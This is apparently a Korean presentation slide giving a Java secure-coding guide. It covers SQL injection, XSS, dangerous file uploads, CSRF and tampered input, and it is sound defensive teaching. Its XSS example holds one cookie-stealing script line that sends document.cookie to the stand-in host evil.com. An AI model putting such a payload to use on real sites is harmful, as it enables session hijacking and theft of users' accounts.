

# 5. 자바 보안 코딩 가이드
SQL Injection
preparedStatement 사용
동적 SQL을 만들 경우 반드시 입력값 필터링 필요
MyBatis는 #{} 사용 필수, ${}는 입력값 필터링 필요
Cross Site Scripting(XSS)
사용자가 입력한 악의적 스크립트 실행 방어
HTML 출력 전에 필터링 필요
<script>url="http://evil.com/attack.jsp?" + document.cookie</script>
위험한 형식 파일 업로드
사용자가 업로드한 파일은 실행되지 않게 조치
크로스사이트 요청 위조
CSRF 방어 코드로 폼 값의 변조 방지
입력값 변조
쿠키 등은 사용자가 변조할 수 있기 때문에 이에 대한 검증 필요
세션 활용해서 사용자별 정보 사용